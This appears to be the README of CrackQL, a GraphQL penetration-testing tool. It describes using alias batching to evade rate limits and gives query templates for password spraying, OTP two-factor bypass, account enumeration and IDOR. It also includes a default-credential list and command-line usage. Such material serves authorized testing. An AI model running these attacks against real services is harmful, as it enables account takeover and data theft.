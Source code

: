 CrackQL
=======
CrackQL is a GraphQL password brute-force and fuzzing utility.

<h1 align="center">
	<img src="https://github.com/nicholasaleks/CrackQL/blob/master/static/CrackQL-Banner.png?raw=true" alt="CrackQL"/>
	<br>
</h1>

CrackQL is a versatile GraphQL penetration testing tool that exploits poor rate-limit and cost analysis controls to brute-force credentials and fuzz operations.

## How it works?

CrackQL works by automatically batching a single GraphQL query or mutation into several alias operations. It determines the number of aliases to use based on the CSV input variables. After programmatically generating the batched GraphQL document, CrackQL then batches and sends the payload(s) to the target GraphQL API and parses the results and errors.

## Defense Evasion

Unlike [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder) which sends a request for each unique payload, CrackQL evades traditional API HTTP rate-limit monitoring defenses by using multiple alias queries to stuff large sets of credentials into single HTTP requests. To bypass query cost analysis defenses, CrackQL can be optimized into using a series of smaller batched operations (`-b`) as well as a time delay (`-D`).

## Attack Use Cases

CrackQL can be used for a wide range of GraphQL attacks since it programmatically generates payloads based on a list of dynamic inputs.

### Password Spraying Brute-forcing

CrackQL is perfect against GraphQL deployments that leverage in-band GraphQL authentication operations (such as the [GraphQL Authentication Module](https://www.graphql-modules.com/docs#authentication-module)). The below password spraying example works against [DVGA](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application) with the `sample-inputs/users-and-passwords.csv` dictionary.

*sample-queries/login.graphql*
<pre>
mutation {
  login(username: <b>{{username|str}}</b>, password: <b>{{password|str}}</b>) {
    accessToken
  }
}
</pre>

### Two-factor Authentication OTP Bypass

It is possible to use CrackQL to bypass two-factor authentication by sending all OTP (One Time Password) tokens

*sample-queries/otp-bypass.graphql*
<pre>
mutation {
  twoFactor(otp: <b>{{otp|int}}</b>) {
    accessToken
  }
}
</pre>

### User Account Enumeration

CrackQL can also be used for enumeration attacks to discover valid user ids, usernames and email addresses

*sample-queries/enumeration.graphql*
<pre>
query {
  signup(email: <b>{{email|str}}</b>, password: <b>{{password|str}}</b>) {
    user {
      email
    }
  }
}
</pre>

### Insecure Direct Object Reference

CrackQL could be used to iterate over a large number of potential unique identifiers in order to leak object information

*sample-queries/idor.graphql*
<pre>
query {
  profile(uuid: <b>{{uuid|int}}</b>) {
    name
    email
    picture
  }
}
</pre>

### General Fuzzing

CrackQL can be used for general input fuzzing operations, such as sending potential SQLi and XSS payloads.

## Inputs

CrackQL will generate payloads based on input variables defined by a CSV file. CrackQL requires the CSV header to match the input name.

*sample-inputs/usernames_and_passwords.csv*
<pre>
<b>username</b>, <b>password</b>
admin, admin
admin, password
admin, pass
admin, pass123
admin, password123
operator, operator
operator, password
operator, pass
operator, pass123
operator, password123
</pre>

#### Valid input types
- `str`
- `int`
- `float`

## Installation

### Requirements
- Python3
- Requests
- GraphQL

### Clone Repository
`git clone git@github.com:nicholasaleks/CrackQL.git`


### Get Dependencies
`pip install -r requirements.txt`

### Run CrackQL
`python3 CrackQL.py -h`

```
Usage: python3 CrackQL.py -t http://example.com/graphql -q login.graphql -i usernames-and-passwords.csv

Options:
  -h, --help            Show this help message and exit
  -t URL, --target=URL  Target url with a path to the GraphQL endpoint
  -q QUERY, --query=QUERY  Input query or mutation operation with variable payload markers
  -i INPUTS_CSV, --input=INPUTS_CSV
                        Path to a csv list of arguments (i.e. usernames, emails, ids, passwords, otp_tokens, etc.)
  -d DELIMITER, --delimiter=DELIMITER  CSV input delimiter (default: ",")
  -o OUTPUT_JSON, --output-json=OUTPUT_JSON
                        Output results to a JSON file (default: results/[url]-[timestamp].json)
  -b BATCH_SIZE, --batch-size=BATCH_SIZE
                        Number of batch operations per GraphQL document request (default: 100)
  -a ALIAS_NAME, --alias-name=ALIAS_NAME
  -D DELAY, --delay=DELAY  Time delay in seconds between batch requests (default: 0)
  -v, --version         Print out the current version and exit.
```

## Configuration
Use `config.py` to set HTTP cookies and headers if the endpoint requires authentication.

## Maintainers
* [Nick Aleks](https://github.com/nicholasaleks)
* [Dolev Farhi](https://github.com/dolevf)
